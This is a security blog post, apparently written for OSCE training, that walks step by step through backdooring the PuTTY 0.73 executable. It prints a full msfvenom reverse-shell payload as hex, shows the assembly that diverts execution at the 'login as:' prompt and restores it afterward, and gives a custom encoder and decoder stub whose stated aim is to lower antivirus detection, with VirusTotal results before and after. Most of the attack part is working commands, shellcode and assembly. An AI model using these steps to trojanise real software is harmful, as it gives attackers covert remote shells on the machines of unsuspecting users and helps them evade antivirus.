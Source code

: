:slug: backdooring-putty/
:date: 2020-06-25
:category: attacks
:subtitle: Trust no one
:tags: osce, backdoor, training, exploit
:image: cover.png
:alt: Photo by Dil on Unsplash
:description: This article will show a way of creating a backdoor that will be injected to PuTTY, a widely used software for accessing remote computers using several protocols. However, this method can be applied to any other PE32 file with minimal changes. Enjoy.
:keywords: Information, Security, Protection, Hacking, Exploit, Backdoor, OSCE
:author: Andres Roldan
:writer: aroldan
:name: Andres Roldan
:about1: Cybersecurity Specialist, OSCP, CHFI
:about2: "We don't need the key, we'll break in" RATM
:source: https://unsplash.com/photos/8OECtq8rrNg

= Backdooring PuTTY

Internet is a dangerous place. It contains billions of points that can be
accessed using a ever increasingly range of devices. Endpoint protections
have growth during time, but there is always a new technique to pass over.

Antivirus software is a clear example of an endpoint protection method that's
constantly improving trying to overcome its own limitations.

Ten years ago, most antivirus offerings worked by using signatures to detect
malware. A signature is nothing but a sequence of certain bytes.

As an example, I extracted the today's
link:https://www.clamav.net/downloads[Clamav AV signatures], picked a random
entry:

image::clamav1.png[Clamav signatures]

And put it on a file called `virus`

[source,text]
----
00000000  51 50 e8 aa f3 49 28 54  0b ed 2e fd 2a 2b 6f 21  |QP...I(T....*+o!|
00000010  10 3a 2f c2 b9 49 4f 0b  24 0d 79 59 45 da 69 87  |.:/..IO.$.yYE.i.|
00000020  20 a5 bc 44 4f bc b7 25  04 8b 77 8c 21 2c f1 6b  | ..DO..%..w.!,.k|
00000030  30 05 45 4e 54 b5 86 53  61 9c dd ee a8 99 dd f0  |0.ENT..Sa.......|
----

And check it using VirusTotal:

[source,console]
----
$ msf-virustotal -f virus | grep ClamAV
 ClamAV                true      0.102.3.0             Win.Trojan.SubSeven-2  20200624
----

And it's detected as a the expected virus.

But then I changed a single byte: The last `F0` for a `FA`:

[source,text]
----
00000000  51 50 e8 aa f3 49 28 54  0b ed 2e fd 2a 2b 6f 21  |QP...I(T....*+o!|
00000010  10 3a 2f c2 b9 49 4f 0b  24 0d 79 59 45 da 69 87  |.:/..IO.$.yYE.i.|
00000020  20 a5 bc 44 4f bc b7 25  04 8b 77 8c 21 2c f1 6b  | ..DO..%..w.!,.k|
00000030  30 05 45 4e 54 b5 86 53  61 9c dd ee a8 99 dd fa  |0.ENT..Sa.......|
----

And check it again:

[source,console]
----
$ msf-virustotal -f virus | grep ClamAV
 ClamAV                false     0.102.3.0                     20200624
----

The check failed! Antivirus based on signatures are easily fooled.

In this post, we will be able to backdoor the latest available version
of PuTTY (0.73 to the date of this writing), with a reverse shell. We will
also try to evade today's modern antivirus which are not only based on
signatures, but also on behavior.

== Strategy

The following are the steps that we will take to convert the original
`putty.exe` to its almost-stealth backdoored version:

. Find space to include our shellcode.
. Check the current `putty.exe` PE properties and modified them as needed.
. Add a shellcode.
. Redirect the execution flow of the application to our code.
. Restore execution flow.
. Encode shellcode to avoid antivirus detection.

== Finding space

If we are going to inject new code to a file, we must find a memory block
with the required space that we can manipulate without modifying the
normal flow of the application.

That 'blank' spaces are known as code caves and are present on almost any
executable file. They are created mostly by the compilers and are composed
commonly with `0xCC`, `0x90` and `0x00` bytes.

There are several tools that help us finding code caves. The tool I prefer
is link:https://github.com/EgeBalci/Cminer[Cminer]. Let's run it over our
`putty.exe` file, and tell it that looks for code caves of 500 bytes or more:

[source,console]
----
$ ./Cminer /mnt/hgfs/Desktop-Host/osce/putty/putty-orig.exe 500
...
[*] Minimum cave size set to 500
[*] Extracting file header data...
/mnt/hgfs/Desktop-Host/osce/putty/putty-orig.exe
Magic			010b	(PE32)
[*] Image Base: 00400000
[*] Start Address: 0x0046fe96
[*] Parsing file sections...
[>] .reloc     (0x509000/0x51011c)
[>] .rsrc      (0x4bd000/0x508030)
[>] .gfids     (0x4bc000/0x4bc0b4)
[>] .00cfg     (0x4bb000/0x4bb004)
[>] .data      (0x4b6000/0x4b6a00)
[>] .rdata     (0x48f000/0x4b5cac)
[>] .text      (0x401000/0x48e65e)
[*] Section parsing complete.
[*] Loading PE file...
[*] File Size: 1096080
[*] Starting cave mining process...
[+] New cave detected !
[+] New cave detected !
[+] New cave detected !
[+] New cave detected !
[*] Mining finished.

[+] 4 Caves found.

[#] Cave 1
[*] Section: .rsrc
[*] Cave Size: 4027 byte.
[*] Start Address: 0x4c2660
[*] End Address: 0x4c361b
[*] File Ofset: 0xbae60

[#] Cave 2
[*] Section: .rsrc
[*] Cave Size: 4009 byte.
[*] Start Address: 0x4c15b1
[*] End Address: 0x4c255a
[*] File Ofset: 0xb9db1

[#] Cave 3
[*] Section: .rsrc
[*] Cave Size: 1737 byte.
[*] Start Address: 0x4c0e76
[*] End Address: 0x4c153f
[*] File Ofset: 0xb9676

[#] Cave 4
[*] Section: .00cfg
[*] Cave Size: 509 byte.
[*] Start Address: 0x4bb003
[*] End Address: 0x4bb200
[*] File Ofset: 0xb5403
----

We will use the last one for this example which contains 509 bytes.

== Getting executable characteristics

That code cave we chose is located at the `.00cfg` PE section.

Sections are the way the different regions of the virtual memory of a PE
file are distributed on disk. There are several predefined sections and
each of them have specific purposes, mostly determined by the
characteristics than for the name itself. In fact, the name of the sections
can be anything and the PE header will have pointers to them.

There is a section called `.text`  which is commonly used to store the
executable code of the file. Like that section is meant to be executable.
The characteristics of that section are commonly `READ | EXEC`.

Likewise, there are other sections that hold initialized data and
global variables like `.data` and `.bss` which are only meant to be read and
write, and not executed `READ | WRITE`.

The section on which our code cave is located is `.00cfg` which is a non
standard section. However, we can check the current characteristics of that
section using many tools. I will use
link:https://github.com/petoolse/petools[PE Tools]:

image::petools1.gif[PE Characteristics]

image::petools2.png[PE Characteristics]

As we can see, that section has currently only permissions to read. However,
as we need to execute code there that will self-decode, we must enable the
`WRITE` and `EXEC` characteristics:

image::petools3.gif[New PE Characteristics]

== ASLR

The `putty.exe` is a standalone executable. We may expect that the virtual
address space of an executable file at rest is the same as when
it's launched and a process instance is created. However, every time we
load `putty.exe` on a debugger, the address space changes on memory.
This is because  of something called *Address Space Layout Randomization*
or *ASLR*. This is a protection added to executable files to make it hard
for attackers to link:../vulnserver-trun/[exploit overflows] using
absolute addresses.

It can be pretty annoying during a backdooring session, but it can be disabled
while we finish and can be enabled at the end. Let's do that:

image::aslr1.gif[New PE Characteristics]

As you can see, I use link:https://ntcore.com/?page_id=388[CFF explorer] to
change the `DLL Characteristics` of the `putty.exe` file and disabled the
`DLL can move` option which is the indicator of the presence of `ASLR`.

We must remind to be careful to use relative calculations and avoid absolute
addresses or `ASLR` will take its toll at the end.

With that in place, we can start inserting our shellcode.

== A needed break

Before going into inserting new bytes to our file, we must check two things
at this point: If the file is still working as originally expected and if
it's flagged as malicious.

The first check is easy:

image::working1.gif[Still working]

The result of the second check is something expected:

[source,console]
----
$ msf-virustotal -f /mnt/hgfs/Desktop-Host/osce/putty/putty.exe
...
[*] Analysis Report: putty.exe (14 / 74): b28ceceac0b0564110d70eac176e151e616a744c6289ff5c86f2484fa987aca5
----

This tells that 14 out of 74 antivirus flag this new file as malicious.

In contrast, the original file was only flagged by 4:

[source,console]
----

$ msf-virustotal -f /mnt/hgfs/Desktop-Host/osce/putty/putty-orig.exe
...
[*] Analysis Report: putty-orig.exe (4 / 73): 736330aaa3a4683d3cc866153510763351a60062a236d22b12f4fe0f10853582
----

We must keep that values in mind, to have something to compare our final file
with.

Let's resume our process!

== Making up the code cave

Before injecting a shellcode, we need to locate the code cave on our file.
`Cminer` showed that it started at `0x4bb003`, and as we disabled `ASLR`,
we should be able to locate it at that exact address.
I will use link:https://x64dbg.com[x64dbg] a modern open-source debugger for
Windows.
Let's check it:

image::codecave1.gif[Finding code cave]

Great, as you can see, it's a region full of `0x00` bytes. It's a good idea
to change those `0x00` to something that doesn't block execution flow, like
`NOPs` (`0x90`).
To do that, we need to select the addresses we want to modify, then
right click on the `CPU` window, select `Binary` and finally `Fill with NOPs`.

image::fillnops1.gif[Fill NOPs]

With that, we have an empty canvas to work on.

It is also a good idea to save every progress of the backdooring in a new file,
so we can go back if anything's not working. To do that, we can
issue `Ctrl+P` that will show the current actual changes we've made and
save the "patches" to a new file.

image::patch1.gif[Patch1]

With that in place, we can start injecting instructions to our code cave.
The first thing we must do is save the current value of the CPU registers
and flags, so we can restore the normal flow of the application after
executing our shellcode. If we don't do that, the application will have
unexpected behavior and the backdooring will be detected!

The instructions for saving the CPU registers and flags are:

[source,x86asm]
----
pushad          ; Push general purpose registers to the stack
pushfd          ; Push EFLAGS to the stack
----

image::pushadfd1.png[Save registers and flags]

At the end of our code cave, we should have to restore that information from
the stack. We will see that later.

We are now ready to inject the shellcode.

== Generating shellcode

As you probably know, a shellcode is a piece of carefully arranged bytes
that can execute anything, commonly a shell.

In our example, we will create a shellcode that connects back from the victim
to the attacker machine and serves a reverse shell.

To to that, we will use `msvenom`:

[source,console]
----
$ msfvenom -a x86 --platform windows -p windows/shell_reverse_tcp LHOST=192.168.0.18 LPORT=443 EXITFUNC=none -f hex
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of hex file: 648 bytes
fce8820000006089e531c0648b50308b520c8b52148b72280fb74a2631ffac3c617c022c20c1cf
0d01c7e2f252578b52108b4a3c8b4c1178e34801d1518b592001d38b4918e33a498b348b01d631
ffacc1cf0d01c738e075f6037df83b7d2475e4588b582401d3668b0c4b8b581c01d38b048b01d0
894424245b5b61595a51ffe05f5f5a8b12eb8d5d6833320000687773325f54684c772607ffd5b8
9001000029c454506829806b00ffd5505050504050405068ea0fdfe0ffd5976a0568c0a8001268
020001bb89e66a1056576899a57461ffd585c0740cff4e0875ec68f0b5a256ffd568636d640089
e357575731f66a125956e2fd66c744243c01018d442410c60044545056565646564e5656535668
79cc3f86ffd589e04e5646ff306808871d60ffd5bbaac5e25d68a695bd9dffd53c067c0a80fbe0
7505bb4713726f6a0053ffd5
----

Notice that I chose `LPORT=443` instead of the default `4444`. This will
hopefully help to disguise this reverse shell a little.

We can now insert that bytes on our code cave.

Here we can see the addresses on where the `pushad/pushfd` instructions were
injected

[source,console]
----
004BB004 | 60                    | pushad                                |
004BB005 | 9C                    | pushfd                                |
----

To make some room for any needed encoder/decoder, I will start injecting
the shellcode on address `004BB060`. To inject the shellcode, we must select
the output of `msfvenom` in `hex` format, then on the debugger, select an
address region large enough to fit our shellcode, then right click,
select `Binary` and then `Paste`.

image::pasteshell1.gif[Paste shell]

Great! We can now save the changes to a new file `putty-02.exe`:

image::patch2.gif[Patch2]

== Diverting execution flow

Now that we have our shellcode in place, we need to change the execution
flow of `putty.exe` to point to our code cave. You can choose at what part
of the execution you want to have the shellcode triggered. Some may want it to
happen at the very start, overwriting the entry point. In this example, we
will trigger it when the user connects to a server and the `login as:` text
appears:

image::loginas1.png[Login as]

Using our debugger, we need to find on where the `login as:` string is
issued:

image::loginas2.gif[Login as]

We had two locations and we need to know which of them is
the one we need, so we had to put breakpoints and check:

image::breakpoint1.gif[Breakpoint]

We got a hit!

As you can see, we hit just before a `call` and I mention before that
we need to use relative calculations to overcome `ASLR` limitations. That's
why we will divert the execution *after* the `call`, here:

image::breakpoint2.png[Breakpoint]

Now, copy the first instructions to a text file, starting at `0042D6F7`, so we
can later restore the execution to this point:

image::copy1.gif[Copy instructions]

Having done that, we need to make a jump to the first instruction of our code
cave. That instruction is `pushad` located at `004BB004`. Let's do that:

image::jmp1.gif[Jump to code cave]

Now I will save the modifications to `patch-03.exe`.

Now remember that we need to restore the execution flow after our
shellcode. Let's do that.

== Restore execution flow

To completely restore the execution of `PuTTY`, we need to do several things:

. Get the value of `ESP` *after* the execution of the `pushad/pushfd`
instructions.
. Get the value of `ESP` *after* the shellcode is completely executed.
. Get the offset using `ESP1 - ESP2 = offset`.
. Align `ESP` with the resulting offset.
. Pop back the CPU registers and flags using `popfd/popad`.
. Restore instructions overwritten by the `jmp` to the code cave.
. Jump to the next instruction after that jump.

=== Get ESP before shellcode

We can do that easily by putting a breakpoint after the `pushad/pushfd` calls
and taking note of ESP:

image::espbefore.gif[ESP before]

The ESP value is `0019FE30`.

=== Get ESP after shellcode

This can be obtained after the shellcode is execute. Remember to open a
listener in the attacker machine:

image::espafter.gif[ESP after]

Great! We got the shell and the `ESP` value is `0019FC30`. However, the
breakpoint was reached only *after* exiting the shell. We will need to
modify the shellcode later.

=== Get the offset

This one is easy: `0019FE30 - 0019FC30 = 0x200`.

=== Align ESP + Restore registers and flags

Now we need to point `ESP` to the value after `pushad/pushfd`. We also
need to restore the registers and flags. This can be done easily with:

[source,x86asm]
----
add esp,0x200
popfd
popad
----

We can now add that to our file:

image::restore1.png[Restore]

=== Restore instructions + Jump to normal flow

If you remember, the original point from where we diverted was:

[source,x86asm]
----
0042D6F7 | 83C4 04               | add esp,4                             |
0042D6FA | 31C9                  | xor ecx,ecx                           |
0042D6FC | 41                    | inc ecx                               |
0042D6FD | 51                    | push ecx                              |
0042D6FE | 50                    | push eax                              | eax:"SSH login name"
0042D6FF | FF73 78               | push dword ptr ds:[ebx+78]            |
----

And the instructions resulting when we added the jump to our code cave were:

[source,x86asm]
----
0042D6F7 | E9 08D90800           | jmp putty-03.4BB004                   |
0042D6FC | 41                    | inc ecx                               |
0042D6FD | 51                    | push ecx                              |
0042D6FE | 50                    | push eax                              |
0042D6FF | FF73 78               | push dword ptr ds:[ebx+78]            |
----

That means that we overwrote two instructions: `add esp,4` and `xor ecx,ecx`
and they need to be restored. We also see that the next instruction in
the normal execution flow is located at `0042D6FC`. So, to finish our
restoration, we need to add this:

[source,x86asm]
----
add esp,0x4
xor ecx,ecx
jmp 0x0042D6FC
----

image::restore2.png[Restore]

We can now save the changes to a new file `patch-04.exe`:

image::patchrestore1.gif[Patch restore]

At this point, we should be able to launch `PuTTY` get a shell and resume
normal execution:

image::working1.gif[Working]

However, as you can see, the execution is only resumed when the shell exits.

== Patching shellcode

That behavior is caused by the way the reverse shell was implemented on
`Metasploit`. It uses a call to `WaitForSingleObject` that instructs the
parent process to waits infinitely until the shell process is done.
This makes the shellcode more reliable, but for our purpose it locks the
execution flow.

The `WaitForSingleObject` function signature is:

.taken from https://docs.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-waitforsingleobject
[source,cpp]
----
DWORD WaitForSingleObject(
  HANDLE hHandle,
  DWORD  dwMilliseconds
);
----

Our reverse shell sets the value of `dwMilliseconds` parameter to `-1`,
which makes it to way forever for the process to finish and it's set on this
position on the shellcode:

[source,x86asm]
----
004BB179 | 4E                    | dec esi                               |
----

We just need to change it to a `NOP` and we should be ready:

image::patching1.gif[Patching shellcode]

Let's run our saved `putty-05.exe`:

image::working2.gif[Patching shellcode]

Mission accomplished! We've got now a fully functional, yet backdoored
`PuTTY`.

== Encoding our shellcode

Let's see how we are doing with antivirus detection:

[source,console]
----
$ msf-virustotal -f /mnt/hgfs/Desktop-Host/osce/putty/putty-05.exe
[*] Analysis Report: putty-05.exe (27 / 71): 919677186373a27cd4de5a2f21fa854784c330abf67bc4abbc893a0a594d1d28
----

Not so great. To improve that metric, we will need to encode our shellcode
using our own encoder.

A common method is to use the `XOR` instruction on every byte, but we are
going to try something more.

The mutations we perform over the code must be reversible, so for the sake
of this example I will use this encoder strategy:

. `XOR` every byte with key `0xD`.
. Add `0x2` to every byte.
. Bit-wise negate every byte.
. Rotate left 8 bits.

.encoder
[source,x86asm]
----
xor byte [eax],0xd
add byte [eax],0x2
not byte [eax]
rol byte [eax],0x8
----

And the decoder should be the reverse instructions, in reverse order:

. Rotate right 8 bits.
. Bit-wise negate every byte.
. Sub `0x2` to every byte.
. `XOR` every byte with key `0xD`.

.decoder
[source,x86asm]
----
ror byte [eax],0x8
not byte [eax]
sub byte [eax],0x2
xor byte [eax],0xd
----

The encoder should be used only once, to mutate the file. Then, when the
encoded shellcode is in place, the decoder should be inserted so it can
self-decode on memory every time.

The full stub we are going to insert is:

[source,x86asm]
----
mov eax,<address where shellcode starts>    ; Make EAX a pointer to our shellcode
loop:                                       ; Loop starts here
<encoder or decoder>                        ; The encoder or decoder instructions
inc eax                                     ; Points EAX to the next byte of the shellcode
cmp eax,<address where shellcode ends>      ; Compare if EAX is pointing to the end of the shellcode
jne loop                                    ; If not, jump to the loop until we reach the end
----

=== Encoding

Let's encode the shellcode first:

image::encoder1.png[Encoder]

Save that changes to a file called `putty-06.exe`.

Now we can watch the process of encoding on real time:

image::encoded1.gif[Encoder]

Wonderful. Now, select those modified bytes, then right click, then
`Binary`, then `Copy`. Restart the debugging session with `Ctrl+F2` and
go to that address region again and hit `Shift+V` to binary paste.

We are now ready to patch the file to a new called `putty-07.exe`.

=== Decoding

Now, all that's left is to replace the encoder with the decoder on our
`putty-07.exe` file:

image::decoder1.png[Decoder]

And save the patches to a file called `putty-final.exe`.

If everything went as expected, `putty-final.exe` will run, then decode itself,
send us a reverse shell and will work just as normal:

image::success.gif[PuTTY working]

Yes! Scary, huh?

== Antivirus detection

Now, let's see how is our manually encoded file tagged in VirusTotal:

[source,console]
----
$ msf-virustotal -f /mnt/hgfs/Desktop-Host/osce/putty/putty-final.exe
....
[*] Analysis Report: putty-final.exe (10 / 72):
6b96ec9906e87bbed37570a83f9c1fcad0dd7a03ff705b1c23dc4f7f425c53ab
----

Awesome we were able to lower the ratio of antivirus tagging from 27 to 10!

== Conclusion

Internet is full of dangers. Now you know that you must not download software
from untrusted sources.
